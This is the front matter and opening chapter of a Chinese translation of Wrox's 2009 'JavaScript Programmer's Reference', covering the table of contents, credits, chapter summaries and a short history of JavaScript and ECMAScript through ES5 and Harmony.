# JavaScript 程序员参考手册



# 目录

* 标题页
* 版权页
* 关于作者
* 制作鸣谢
* 致谢
* 引言
    * 本书适合读者
    * 本书的结构
        * 使用本书所需的准备
        * 编写规范
        * 源代码
        * 勘误
        * p2p.wrox.com
* 第 1 章 - JavaScript 简介
    * JavaScript 历史
    * 展望 ES5 和 Harmony
    * JavaScript 开发者的阶段
        * 现实世界的 JavaScript
        * 互补技术
        * 超文本标记语言 (`HTML`)
        * 层叠样式表 (`CSS`)
        * 浏览器对象模型 (`BOM`)
        * 文档对象模型 (`DOM`)
        * 何时使用 JavaScript
        * 主流 JavaScript 引擎
        * 基础开发工具
    * 你的第一个 JavaScript 应用
    * 本章小结
* 第 2 章 - 浏览器中的 JavaScript
    * 文档对象模型
        * `SCRIPT` 元素
        * 脚本掩蔽
        * `NOSCRIPT` 元素
        * 执行与加载顺序
    * URL 中的 JavaScript
    * 跨浏览器兼容性
    * 本章小结
* 第 3 章 - JavaScript 基础
    * 一般特性
        * 变量
        * 数据类型
    * 本章小结
* 第 4 章 - 表达式、运算符与语句
    * 表达式
    * 运算符
        * 组合运算符
    * 语句
    * 杂语句
    * 本章小结
* 第 5 章 - 函数
    * 函数对象
        * 声明函数
        * 按值还是引用传递参数
        * 返回值
    * 变量作用域
    * 重载
    * 可选参数
    * 参数对象
    * 参数哈希
    * 嵌套函数
    * 闭包
    * 闭包的应用
    * 循环中的闭包
    * 循环引用
    * 意外的闭包
    * 执行上下文与作用域
    * 使用 `apply()`
    * 使用 `call()`
    * 本章小结
* 第 6 章 - 全局对象与 Object 对象
    * 全局对象的特性
        * 浏览器中的全局对象
        * 获取全局对象
        * 全局属性
        * 全局函数
        * URI 编码
        * 求值代码
        * 数字辅助函数
    * 全局对象
    * Object 对象
        * 原型
        * 判断属性是否存在
        * 使用 `valueOf()` 和 `toString()`
        * 对象的对象的工具函数
    * 本章小结
* 第 7 章 - String 与 RegExp 对象
    * String 对象
        * String 基础
        * 字符串字面量
        * 编码
        * 字符串中的换行
        * 不可变性
        * 字符串长度
        * 原始类型或对象
        * 扩展 String 对象
        * 字符串拼接
        * 字符串与数字
        * 转换为字符串
        * 比较字符串
        * 处理字符串
        * 格式化方法
        * 处理大小
        * 搜索与替换
        * 切片与切分
        * 字符串与数组
    * URL 的字符串编码
    * 本章小结
* 第 8 章 - Boolean、Number 与 Math 对象
    * Boolean 对象
        * Boolean 对象概述
        * 处理布尔值
        * 转换为 Boolean
    * Number 对象
        * Number 对象概述
        * 整数与浮点数值
        * 数字字面量
        * 数字与字符串
        * 转换为数字
        * `NaN` 与无穷大
        * 最小值与最大值
    * Math 对象
        * Math 对象概述
        * 数学常量
        * Math 工具函数
        * 舍入
        * 随机数
        * 简化 Math 调用
    * 本章小结
* 第 9 章 - Array 与 Date 对象
    * Array 对象
        * Array 概述
        * 创建数组
        * 索引数组
        * 多维数组
        * 检测数组
        * 数组大小
        * 遍历数组
        * 向数组添加元素
        * 合并数组
        * 从数组中移除元素
        * 关联数组（哈希）
        * 作为引用类型的数组
    * 数组与字符串
    * Date 对象
        * Date 对象概述
        * 创建日期
        * 时间概述
        * 解析日期字符串
        * 读取与写入日期
        * 测量时间差
        * 计时器与间隔
    * 本章小结
* 第 10 章 - 面向对象开发
    * 面向对象的 JavaScript
        * 创建对象
        * 删除属性
        * 作为引用类型的对象
        * 作为数组的对象
        * 比较对象
        * 构造函数属性
        * 静态成员
        * `this` 关键字
        * 私有成员
        * 特权成员
        * Getter 和 Setter
        * JavaScript 中的继承
        * 基于原型的子类
        * 原型的问题
        * 替代子类方法
    * 本章小结
* 第 11 章 - 窗口与帧
    * 对象模型概述
        * `window` 对象
        * 处理帧
        * 创建帧
        * Frame 对象
        * 引用帧
        * 操作窗口
        * 状态栏
        * 打开和关闭窗口
        * 设置窗口位置
        * URL 的字符串编码
        * 窗口历史
        * 移动与调整大小
        * 滚动
        * 对话框和警报
        * 获取浏览器和操作系统信息
    * 浏览器检测基础
        * `navigator` 对象
        * 检测语言
        * `screen` 对象
    * 浏览器和操作系统检测
    * 本章小结
* 第 12 章 - 事件
    * 事件模型
        * 基础事件注册
        * `this` 关键字
        * 阻止默认行为
        * 非侵入式事件注册
        * 检查监听器
        * `event` 对象
        * 跨浏览器事件
        * 捕获模式
        * 默认处理器
        * 事件传播
        * 复制事件
        * 常见绑定
        * 检测按键
        * 鼠标位置
        * `scroll` 事件
        * `resize` 事件
        * `load` 和 `unload` 事件
        * `domready` 事件
        * `mouseenter` 和 `mouseleave` 事件
        * 事件兼容性
        * 自定义事件
        * 本章小结
* 第 13 章 - 文档对象模型
    * DOM 的历史
    * W3C DOM
    * 文档类型
    * 怪异模式下的情况
    * 文档树
    * 节点类型
    * 节点属性
    * 节点方法
    * `implementation` 对象
    * 遍历 DOM
    * 元素属性
    * 构建 DOM 检查器
    * 查找特定元素
    * 创建与删除节点
    * DOM 范围
* 第 14 章 - 表单
    * Form 对象
    * 表单元素
    * 表单基础操作
    * 输入项
    * 富文本字段
    * 本章小结
* 第 15 章 - 级联样式表
    * 概述
    * 在文档中嵌入 CSS
    * `style` 对象
    * 导入样式
    * 添加与移除样式
    * 读取与写入样式属性
    * 计算后的样式
    * IE 的 `filter` 对象
* 第 16 章 - 动态 HTML
    * CSS 的作用
    * 窗口与文档几何结构
        * 滚动条宽度
        * 元素尺寸
    * 图片切换与鼠标悬停
    * 定位
    * 获取元素的绝对位置
    * 动画
    * 颜色与透明度
    * 模态对话框
    * 表单提示框
    * 本章小结
* 第 17 章 - JavaScript 安全
    * 安全模型
        * 同源策略
        * 签名脚本
    * 安全策略与区域
    * 杂项问题
    * 本章小结
* 第 18 章 - 客户端数据与持久化
    * 持久化方法
        * Cookie
        * Internet Explorer 中的用户数据
        * W3C 存储
        * HTML5 客户端数据库
        * Flash 共享对象
        * 使用 `window.name`
    * 本章小结
* 第 19 章 - Ajax
    * `XMLHttpRequest`
    * 安全
    * 跨域 Ajax
    * 历史与书签
    * 本章小结
* 第 20 章 - 处理 XML
    * 加载 XML
    * 序列化 XML 为文本
    * 使用 XML DOM
    * 使用 XSLT 数据
    * 本章小结
* 第 21 章 - 处理 JSON
    * 从 JavaScript 字面量到 JSON
    * 标签与编码
    * JSON 作为求值代码
    * 安全问题
    * JSON 与 XML
    * 将对象序列化为 JSON
    * 加载 JSON 数据
* 第 22 章 - 特色浏览器功能
    * 加速器
    * Canvas
    * 地理位置
    * Google Gears
    * 矢量标记
    * Web Workers
    * 本章小结
* 第 23 章 - 插件
    * Java
    * Flash
    * Silverlight
    * QuickTime
    * 本章小结
* 第 24 章 - 调试
    * 错误类型
    * 错误对象
    * 抛出错误
    * 错误处理器
    * 获取堆栈
    * 调试工具
    * 测试
    * 本章小结
* 第 25 章 - 性能调优
    * 减轻页面重量
    * 代码分析
    * 代码优化
    * DHTML 优化
    * 本章小结

Wiley Publishing, Inc.

10475 Crosspoint Boulevard

Indianapolis, IN 46256

[www.wiley.com](http://www.wiley.com) 版权 2009 所有 Wiley Publishing, Inc., Indianapolis, Indiana 与加拿大同时出版 ISBN: 978-0-470-34472-9 本出版物中的任何部分均不得复制、存储在检索系统中或以任何形式或通过任何手段（电子、机械、复印、录制、扫描或其他）传输，除非根据 1976 年美国版权法案第 107 节或 108 节的规定，否则未获得出版者的事先书面许可，或通过向版权许可中心支付相应的每副本费用获得授权（地址：222 Rosewood Drive, Danvers, MA 01923, (978) 750-8400，传真 (978) 646-8600）。向出版者请求许可的应发送至许可部门，John Wiley & Sons, Inc., 111 River Street, Hoboken, NJ 07030, (201) 748-6011，传真 (201) 748-6008，或在线访问 [`www.wiley.com/go/permissions`](http://www.wiley.com/go/permissions)。

## 责任限制/免责声明

出版者和作者对内容的准确性或完整性不作任何陈述或保证。出版者和作者对于由于书中提及的实体、软件或服务的使用或失效而引起的任何直接、间接、偶然、特殊或损害不承担任何责任，包括但不限于对特定目的适用性的保证。书中包含的建议并不适用于所有情况。出版者或作者对于书中提及的任何类似的或相关的损害不承担任何责任。

## 商标

Wiley、Wiley 标志是 Wiley Publishing, Inc. 的注册商标。其他商标均属于其所有者。JavaScript 是 Sun Microsystems 的注册商标。Wiley Publishing, Inc. 不涉及。

美国会图书馆登记号：200930

## 致谢

收购编辑：Scott Meyers

开发编辑：Daniel Connor

技术编辑：Alexei Gorkov

制作编辑：Christopher Jones

文稿编辑：Robyn B.

编辑经理：Mary Wakefield

制作经理：Tim Tate

副执行出版编辑：Barry Swadley

执行出版编辑：Jim Minatel

项目协调员：Lynsey Stanford

校对：Publication Services, Inc.

索引：Ron Strauss

这本书绝非在真空环境中完成，许多人在其中起了重要作用，并贡献了整体质量。我想感谢开发社区对 JavaScript 的多年贡献，提升了大家的理解和技能。这些人无疑包括 Douglas Crockford、John Resig、Dustin Diaz、Valerio Proietti、Alex Russel（感谢你的 Fiddler）、Joe Hewitt（因 Firebug 出名——应该用他的名字命名），当然还有很多人。还要感谢 Nitobi、Adobe、Mozilla 基金会、Opera Software、Microsoft 和 Apple，无论是让我的生活变得更容易，还是对 Web 开发社区的持续贡献（请继续制作棒的工具！）。在个人方面，我想感谢我的未婚妻 Lara，一直完全完全支持，无论我是深夜工作、周末写作，还是通常情况下完全不做家务。我还要感谢我的父母给了我成功所需的一切。

## 关于作者

Alexei White 是一位程序员、设计师和演讲者，他在温哥华。他的博客可以在 [`alexei.com`](http://alexei.com) 找到。当他不工作时，你可以在不列颠比亚省的某个湖边钓鱼。他曾为 Microsoft 贡献过许多大型项目。

## 引言

自 Netscape 在十四多年前引入 JavaScript 以来，它已成为世界上最广泛使用的脚本语言之一。今天，世界上几乎每台个人电脑都运行着 JavaScript 引擎，无论是 Mac、Windows PC 还是 Linux 。它帮助开发者在 Web 上创建丰富的用户体验，是互联网成为可行业务平台的推动因素之一。本书的目的不仅仅是简单的教程和参考材料集合。它旨在为初学者和资深开发者提供全面且准确的资源。它是那种你希望一直放在电脑旁，随时翻阅以回顾技巧、浏览器兼容性以及对语言一些最前沿功能的深度解析。它从语法基础、通用特性和流程控制开始，一直到面向对象的继承、离线存储、Ajax 和调试的高级方法。尽管如此，你不需要从头到尾读这本书。它使用离散的示例而不是大型参考程序，并提供清晰有意义的标题以便浏览。你可以跳转到材料的任何一点，只要你对前面的章节有一定理解，就应该可以直接开始。最后，本书与其他 JavaScript 书籍的区别在于，它推动你超越泛泛熟悉，并提供了一些新工具来解决困难的现实世界问题。

## 本书读者

鉴于 ECMAScript 在浏览器内外都有许多不同的实现方式，有必要阐明谁将从本参考书中获益最多。本书主要面向追求客户端浏览器端 JavaScript 开发的开发者，尽管许多概念也适用于使用诸如 `Rhino`、`Spidermonkey` 或 `JScript.NET` 的服务器端和编译后的实现。

本书的早期章节对所有语言基础提供了详尽的介绍，因此不需要预先的 JavaScript 经验。具备一些其他的其他编程经验会有帮助，因为许多术语和语法将与其他语言保持一致。丰富的 JavaScript 开发者也将从书的中间、后期部分以及附录中的参考资料中获益匪浅。

此外，具备一些 `HTML` 经验也是理想的，因为我不会详细解释不同 `HTML` 标签的含义，也不会深入讲解 `HTML` 文档的基本结构。对于希望扩展浏览器脚本理解的设计师来说，本书也是一份理想的资源。如果你拥有设计背景并已经理解了 `CSS` 和 `HTML`，你将已经为 `DHTML`、动画和级联样式表（Cascading Style Sheets）章节做好了充分准备。

最重要的是，我将这本书设计为所有资深 JavaScript 开发者的首选资源，也是你想要一直放在电脑旁边的书籍。随着你能力的提升和应用程序变得日益复杂，你会在这些页面中发现新的闪光宝藏，让你流连忘返。

# 本书的结构

本书的章节设计遵循循序渐进的原则：前四章涵盖基础主题，第五章到十五章是中等话题，结尾部分则是高级主题。这种循序渐进体现在：初学者应该从第 1 章开始并一直读下去，但整本书的结构旨在让所有技能水平的开发者都能受益。即使在早期章节中，高级开发者也会欣赏书中包含的一些关于语言、性能和兼容性的底层信息。以下是各章节的简要描述供你参考。

## 第 1 章：JavaScript 简介

介绍了该语言的现状，以及从早期的 `Netscape 2` 时代开始演变的简要历史。本章解释了 `CSS` 和 `DOM` 等各种相关技术的作用，还向读者介绍了一个代表性的“Hello World” JavaScript 应用程序。

## 第 2 章：浏览器中的 JavaScript

详细概述 `JavaScript` 究竟如何融入浏览器运行时、我们如何在页面中引入脚本，以及如何通过浏览器事件控制执行。

## 第 3 章：JavaScript 基础

解释了 `JavaScript` 的基本特征，以及它在底层与其他编程语言的对比。这里涵盖的其他主题包括变量 `variables`、垃圾回收 `garbage collection`、类型转换 `type conversion` 和对象 `objects`。

## 第 4 章：表达式、运算符和语句

涵盖了所有的标准运算符、语句，以及我们如何构建表达式。还提供了关于优先级和性能的详细信息。

## 第 5 章：函数

介绍了创建函数的各种方式，包括闭包 `closures` 这一特殊概念。本章还讨论了作用域 `scope`、嵌套函数 `nested functions` 和执行上下文。

## 第 6 章：全局对象和 Object 对象

详细概述了语言中几个最基础的概念。本章解释了全局对象 `global object` 的作用以及在浏览器中的用法。我们查看了需要避免的陷阱，以及使用它来简化开发的方法。之后，我们查看 `Object` 对象，它是语言中所有其他对象的原型。我们简要介绍了继承 `inheritance` 的概念，以展示如何通过扩展该对象来为我们所有其他类型添加功能。

## 第 7 章：String 和 RegExp 对象

详细概述了核心对象 `String` 以及一些高级的字符串操作。

## 第 8 章：Boolean、Number 和 Math 对象

深入讨论了 `Number` 对象、`Boolean` 对象和 `Math` 对象，包括一些常用操作的示例。

## 第 9 章：Array 和 Date 对象

描述了数组 `arrays` 并向你展示如何处理日期 `dates`。

## 第 10 章：面向对象开发

概述了 `JavaScript` 的面向对象特性、我们如何创建类 `classes` 和对象 `objects`，以及用于模拟其他语言面向对象概念的一些有用工具。

## 第 11 章：窗口与框架

解释了浏览器检测、`location` 和 `history` 对象、窗口几何结构 `window geometry`、窗口的创建与操作以及其他相关主题的原因和原理。

## 第 12 章：事件

描述了 `DOM 事件模型`，包括浏览器之间的差异，以及一套创建自定义事件的系统。本章还回顾了各种实用窗口事件 `window events` 的细节，以及它们在不同浏览器之间的区别。

## 第 13 章：文档对象模型

描述了与在浏览器内部操作 `DOM` 相关的所有最重要概念和活动，包括浏览器差异及其适用场景。

## 第 14 章：表单

描述了如何访问和操作表单集合 `forms collection`、动态更改并创建新表单，以及每个表单字段类型的所有重要功能。本章还提供了常用表单任务的配方，并描述了如何创建和使用 `WYSIWYG 字段`。

## 第 15 章：层叠样式表

涵盖了许多与样式表与 `JavaScript` 交互的内容，包括如何访问和操作样式、样式表 `sheets`，甚至如何预加载样式中包含的图像。

## 第 16 章：动态 HTML

回顾了一些用于构建用户界面的执行 `DOM 操作` 和动画的实用技术和工具。这里涵盖的主题包括定位、`z-index`、动画和非线性动画、精灵图 `spriting`、32 位图形，甚至还有一些构建 `DHTML 组件`的示例。

## 第 17 章：JavaScript 安全

解释了许多与 `JavaScript` 特别是 `Ajax` 开发者相关的安全问题和限制。

## 第 18 章：客户端数据与持久化

描述了如何使用 `cookies`、`sessionStorage` 和 `globalStorage`、`userData` 等离线存储机制，在跨页面加载和浏览器会话期间持久化存储客户端数据。

## 第 19 章：Ajax

包含了使用 `XMLHttpRequest` 对象与服务器通信的所有要点，以及在浏览器和服务器之间传输数据的其他方法。

## 第 20 章：使用 XML

展示了如何在浏览器中解析和操作 `XML 文档`。

## 第 21 章：使用 JSON

涵盖了 `JavaScript Object Notation`（JavaScript 对象表示）在 `Ajax` 和通用 `JavaScript 开发`中的作用和用途。

## 第 22 章：独特的浏览器特性

探索了 `Internet Explorer`、`Firefox` 和 `Safari` 中可用的一些专用扩展。主题包括搜索提供者 `Search Providers`、Web 切片 `Web Slices`、条件注释 `Conditional Comments`、CSS 过滤器 `CSS Filters`、地理位置 `Geolocation`、Web Workers、Google Gears 等。

## 第 23 章：脚本插件

包含了与浏览器插件交互的示例，例如 `Adobe Flash`、`Java Applets`、`DivX 视频播放器` 和 `Silverlight`。

## 第 24 章：调试

解释了 `Error` 对象的用法、错误处理程序 `error handlers` 的利用，以及使用（Firebug、Fiddler、Drosera 和 Dragonfly 等）工具排查 JavaScript 问题的方法。

## 第 25 章：性能调优

研究了通过避免常见陷阱来优化代码性能的方法。还将研究如何对页面进行速度分析（Profiling）以识别问题。

## 附录 A：核心 JavaScript 语言

描述了所有标准运算符和语句，包括一些专用浏览器扩展（带示例）。

## 附录 B：JavaScript 全局对象

包含了所有全局对象 `global objects` 的完整引用（带示例），包括一些专用浏览器对象。

## 附录 C：JavaScript 全局属性

描述了所有属于全局对象的一部分的标准属性（带示例）。

## 附录 D：JavaScript 全局函数

描述了所有属于全局对象的一部分的标准函数（带示例）。

## 附录 E：保留字和特殊词汇

列出了所有 `ECMAScript 规范` 中的已知保留字，以及流行的浏览器扩展和专用浏览器功能使用的额外关键字。

## 附录 F：文档对象引用

包含了 `DOM 对象和属性` 的详尽列表，附有详尽的浏览器支持信息和描述。

## 附录 G：网络资源

指向了一些用于 `JavaScript`、`DHTML` 和 `CSS` 开发的有用网络资源。

# 使用本书所需的准备

使用本书不需要特殊的软件或硬件。建议你下载 `Firefox`、`Opera` 和 `Safari` 进行测试，并在 Windows 机器上将 `Internet Explorer` 升级到最新版本。一个简单的文本编辑器就足以编辑和测试书中的示例。根据需要，我会推荐一些额外的免费工具用于性能分析和调试。到时候我会告诉你去哪里获取它们。

# 约定

为了帮助你充分利用本书的内容并跟踪进度，我在书中中使用了一些约定俗例。你可以下载并亲自尝试的示例通常出现在像这样的框中：

**示例标题**

本节对该示例进行简要概述。

**源代码**

本节包含源代码。

```
Source code

Source code

Source code
```

**输出**

本节列出了输出：

示例输出

示例输出

示例输出

像这样的框包含了重要的、不容忽视的信息，这些信息与周围文本直接相关。

*针对当前讨论的注释、提示、说明、技巧和旁注会进行缩进并以斜体形式显示，如文所示。*

关于文中的样式：

* 我们在介绍新术语和重要词汇时会对其进行*斜体*标记。
* 我们像这样显示按键操作：`Ctrl+A`。
* 我们在文中这样显示文件名、URL 和代码：`persistence.properties`。
* 我们以两种不同的方式呈现代码：
    * 对于大多数代码示例，我们使用不带高亮的等宽字体。
    * 我们使用灰色高亮来强调在当前文中特别重要的代码。

# 源代码

在你学习书中的示例时，你可以选择手动输入所有代码，也可以使用随书附的源代码文件。书中使用的所有源代码都可以从 [`www.wrox.com`](http://www.wrox.com) 下载。进入网站后，只需通过 `Search` 框或使用其中一个标题列表找到书名，然后点击书籍详情页上的 `Download Code` 链接即可获取该书的所有源代码。*由于许多书籍的标题相似，你可能会发现通过 ISBN 搜索最为方便；本书的 ISBN 是 978-0-470-34472-9。**一旦下载了代码，只需用你喜欢的压缩工具对其进行解压。或者，你也可以前往 Wrox 代码下载主页 [`www.wrox.com/dynamic/books/download.aspx`](http://www.wrox.com/dynamic/books/download.aspx) 查看本书以及所有其他 Wrox 书籍提供的代码。*

# 勘误

我们尽一切确保文本或代码中没有错误。然而，没有人是完美的，错误在所难免。如果你在我们的某本书中发现错误（例如拼写错误或有问题的代码），我们将非常感谢你的反馈。通过提交勘误信息，你可以为其他读者节省数小时的挫败感，同时帮助我们提供更高质量的信息。要找到本书的勘误页面，请访问 [`www.wrox.com`](http://www.wrox.com) 并使用 `Search` 框或其中一个标题列表找到书名。然后在书籍详情页上，点击 `Book Errata` 链接。在该页面上，你可以看到 Wrox 编辑器已针对该书提交并发布的所有勘误信息。一个包含每本书勘误链接在内的完整书籍列表也可以在 [www.wrox.com/misc-pages/booklist.shtml](http://www.wrox.com/misc-pages/booklist.shtml) 找到。*如果你在“书籍勘误”页面上没有发现属于“你”的错误，请访问 [www.wrox.com/contact/techsupport.shtml](http://www.wrox.com/contact/techsupport.shtml) 并填写那里的表格向我们发送你发现的错误。我们将检查这些信息，并在适当的情况下在书籍勘误页面发布消息，并在书籍的后续版本中修复问题。*

# p2p.wrox.com

为了与作者和同行讨论，请加入 [p2p.wrox.com](http://p2p.wrox.com) 的 P2P 论坛。论坛是一个基于 Web 的系统，你可以在此发布与 Wrox 书籍及技术相关的消息，并与其他读者和技术用户进行互动。论坛提供了订阅功能，当论坛发布新帖子时，会将你选择的主题通过电子邮件发送给你。Wrox 的作者、编辑、其他行业专家以及你的读者都活跃在论坛中。在 [`p2p.wrox.com`](http://p2p.wrox.com)你会发现许多不同的论坛，它们不仅能在你阅读本书时帮助你，还能帮助你开发自己的应用程序。要加入论坛，请遵循以下步骤：

1. 进入 [p2p.wrox.com](http://p2p.wrox.com) 并点击 `Register` 链接。
2. 阅读使用条款并点击 `Agree`。
3. 填写加入所需信息以及你希望提供的任何可选信息，并点击 `Submit`。
4. 你将收到一封电子邮件，说明如何验证你的账户并完成加入流程。*你可以在加入 P2P 的情况下阅读论坛中的消息，但为了发布自己的消息，你必须加入。*一旦加入，你就可以发布新消息并回复其他用户发布的消息。你可以随时在 Web 上阅读消息。如果你希望将特定论坛的新消息通过电子邮件给你，请点击论坛列表名称旁的 `Subscribe to this Forum` 图标。关于如何使用 Wrox P2P 的更多信息，请务必阅读 P2P FAQ，获取有关论坛软件如何工作的解答以及许多针对 P2P 和 Wrox 书籍的常见问题。要阅读 FAQ，请点击任何 P2P 页面上的 `FAQ` 链接。

# JavaScript 简介

与许多获得成功并具有生命力的技术一样，JavaScript 自多年前创立以来，就承担了新的用途和相关性。现在说 JavaScript *仅仅*是一种脚本语言，甚至*仅仅*用于 Web 已经是不正确的了。事实上，JavaScript 是当今使用的少数真正的多供应商、多平台和多用途编程语言之一。它拥有这一地位不仅是因为它恰好是为浏览器脚本设计的语言，还因为它是一门极其灵活、富有表现力且容错性强的语言，业余爱好者和专业开发者都能对其赞赏。诚然，归功于 Web，我们才有了如此有趣且强大的构建应用程序的方式，但归功于 JavaScript，我们才有了如此有趣且强大的 Web。

本书将作为所有 JavaScript 相关事务的详细参考。这当然包括所有的语言基础知识，还涵盖了与其核心对象、特性和局限性几乎相关的所有内容。你还将研究高级主题，例如如何将 JavaScript 用于网页内部提供特定的交互性或功能，如何使用它来操作 Web 文档的结构，以及如何与 Flash、Silverlight、CSS 甚至离线存储等 Web 技术进行交互。

本章将概述该语言以及它在 Web 技术谱中的位置。它将提供关于人们通常如何学习该语言的见解，并解释 JavaScript 在竞争浏览器和解释器云丛中的历史和当前角色。最后，我将介绍一个使用 JavaScript 的简单 Web 应用程序，并解释它们是如何整合在一起的。

JavaScript 最初是 Netscape 的一个极具好奇心的增强功能，名为 `Mocha`（致敬 Java），其设计初衷是少量使用，为网页行为（主要是网页表单）添加微小的增强。Netscape 和太阳微系统显然认为，网页的这种新维度无法、或不应该在已经复杂的 HTML 声明性语法中解决。相反，一种脚本语言诞生了，它在随后的十多年里持续为互联网注入活力。

在正式发布之前，它的名称被更改为 `LiveScript`，后来改为 `JavaScript`。1996 年 3 月，`Netscape 2.0` 向世界发布，包含了该语言的第一个正式版本。同年 8 月，微软发布了 `Internet Explorer 3.0`，引入了名为 `JScript` 的类似功能（但有一些细微改进）。在随后的几年里，这两家公司几乎在语言增强上并驾齐驱。到 1997 年 6 月，国际标准组织 `Ecma` 批准了 Netscape 提交的语言标准化提案。该语言的标准化版本被称为 `ECMAScript`（`ECMA-262`），在 1997 年到 2009 年之间经过了四次修订。直到今天，开发者社区对于 `JavaScript`、`ECMAScript` 和 `JScript` 的区别仍存在争议。简单的答案是：`ECMAScript` 指的是已发布的标准语言版本，而 `JavaScript` 和 `JScript` 是该标准的方言（或实现）。尽管如此，就像之前的 `Kleenex`、`Frisbee`、`Q-Tip` 和 `Band-Aid` 等其他通用品牌一样，`JavaScript` 这个名字留了下来，并且可能永远如此。

很少有编程语言像 `JavaScript` 这样被误解。根源可能始于这个误导性的名称。`JavaScript` 与 `Java` 语言甚至与 `Java Applet`（早期网页开发的另一种流行平台）几乎没有关系。与两者相比，`JavaScript` 要小得多、更简单且更具针对性。想要在自己的 `JavaScript` 应用中使用 `Java` 的一些强大功能（如基于类的继承）的开发者很快就发现了这些差异。在最初发布后的几年里，人们对浏览器脚本的态度在热情与完全不信任之间剧烈波动，但最近转变为高度重视和快速采纳。在中间的几年里，核心语言增加了许多内容，而 `Microsoft` 和 `Mozilla` 这种竞争厂商之间的隐性合作，使得开发者无论人们使用何种浏览器，在大多数情况下都能为同一个标准编写代码。

当然，`JavaScript` 不再局限于在网页内部使用。在被 `Ecma` 标准化后，它被实现许多其他技术的脚本语言，如 `Flash`、`Adobe Acrobat`、`Microsoft .NET`，甚至作为一种编写桌面小组件的方法。事实上，`Ecma` 标准在短时间内经过了如此多次修订，以至于浏览器供应商不再试图跟上，也不对它的发展方向达成共识。虽然现在在许多语境下该语言有许多版本，但本书从实用角度出发，主要将其作为编写网页脚本的方式来介绍这种语言。我们尽可能地记录了核心语言何处结束以及浏览器特性从何处开始。在书末的附录中，你将找到核心语言的详细参考、它如何映射到 `Ecma` 标准，以及由 `Microsoft` 和 `Mozilla` 等独立厂商添加的许多浏览器扩展。

# 展望 ES5 和 Harmony

2007 年，浏览器领域最大的巨头们（`Mozilla`、`Microsoft`、`Adobe`、`Google` 和 `Opera`）之间的合作与协作氛围开始破裂，架构师们对 `ECMAScript` 标准的 `ES4`（版本 4）提出了一个提案。这将是该标准历史上最剧烈的更新，引入了一些激进的特性，如基于类的继承、命名空间和迭代器。来自 `Microsoft` 的参与者对这些变化的性质以及辩论展开的方式表示强烈反对。无论事实如何，有一点是明确的：对于一个本质上已成为互联网共享属性的技术标准，还没有足够的共识来推动它的发展。这种新标准的采用程度将不足以成为一种可行的技术。

相反，并没有在一个没有奏效的过程中继续投入更多精力，而是形成了第二个小组（主要由 `Microsoft` 和 `Yahoo!` 的成员组成），他们并行工作，对标准进行了更保守的修订，以解决一些不那么争议的即时需求。这个标准最初被称为 `ES3.1`（版本 3.1），后来被重命名为 `ES5`。这最初旨在作为 `ES4` 文档中出现的内容与已在 `ES3` 中实现的内容之间的一个中间标记。这被一些人描述为像是对标准的错误修复，而不是重大更新。

这两个小组尝试协调他们的工作，以便在 `ES3.1` 中的更改能延续到 `ES4`。然而，由于意见上的根本性差异，显然这不会发生，而且共同基础太少。进展再次陷入了停滞。此时，`Adobe` 已经在其用于 `Flash` 和 `Flex` 开发的最新引擎版本（`ActionScript 3`）中采纳了 `ES4`。现在看来，按照目前的描述，`ES4` 似乎没有未来。

最后，决定这两个小组必须以更保守的抱负结合，以便所有人都能向前发展。这个全新的、完全独立的项目被称为 `ECMAScript Harmony`，并将保留极少数最初为 `ES4` 计划的内容。虽然一份发布的草案在 2009 年初就可用，但可能还需要很多年时间，开发者才能在大多数浏览器中依赖 `ES5` 的特性。

# JavaScript 开发者的阶段

尽管 JavaScript 在浏览器中非常流行，但实际上很难找到精通它的开发者。这在任何就业市场中都是如此，无论是在湾山地区、温哥华深度数字化的科技领域，还是专业化程度很高的纽约开发者社区。从根本上说，是因为 JavaScript 与相关技术（`CSS`、`HTML` 和浏览器）之间的互通性创造了深层的复杂性，只有爱好者才能完全掌握。此外，因为这通常要求对服务器技术以及如 `XML`、`JSON` 和 `SOAP` 等传输格式有深入的理解。你很少能看到招聘“JavaScript 专家”的职位启事，相反，招聘的是精通 JavaScript 以及许多其他技术的跨学科开发者。结果是，一些开发者选择精通一个或多个流行的 JavaScript 框架，如 `jQuery`、`Dojo`、`Prototype` 或 `Mootools`。这些是处理浏览器脚本非常实用的方法，我强烈建议学习其中一种，但这些框架本质上是极简的。如果你缺乏对 `CSS`、`Object Orientation`（面向对象编程）或与文档对象模型交互的理解，它们并不会特别宽容。

如果你是这门语言的新手，你可能会被海量的学习资源所淹没。你可能读过其他书籍，甚至尝试过编写一些基础脚本。通过熟悉基础知识，你可以快速加速对 JavaScript 以及通用的浏览器脚本的掌握。如果你已经熟悉了另一种编程语言，并能够精通该语言中四个左右的基本概念，你就可以告别几个月的循序渐进发现和糟糕的代码，直接进入真正有趣的内容了。来自 `jQuery` 和 Mozilla 闻名的 John Resig 是第一批描述新程序员在学习这门语言时常见开发路径的人之一（[`www.slideshare.net/jeresig/building-a-javascript-library`](http://www.slideshare.net/jeresig/building-a-javascript-library)）。路径大致如下：

* **对象引用无处不在**：最有用的操作涉及传递非常大对象的引用，例如 `DOM`（文档对象模型）、页面上的元素或函数。`DOM` 本身是一个巨大的分级对象和元素引用集合，可以像设置属性一样轻松地操作。
* **你可以创建自己的对象和命名空间**：事实上，开发者意识到的第一件事之一是 JavaScript 是 `OO`（面向对象）编程。虽然他们可能无法完全理解所有可用的 `OO` 特性，但他们从创建一些遵循非常基础的 `OO` 原则的 API 开始。
* **对象原型允许你创建 OO 类**：一旦程序员理解了他们可以创建对象和函数的实例来构建伪类，有人向他们指出原型构造函数，学习者的脑中就会被点亮明灯。他们开始为各种可以想象的用途构建复杂的基于类的 API，但开始遇到与作用域以及在程序部分之间维持对象相关的障碍。
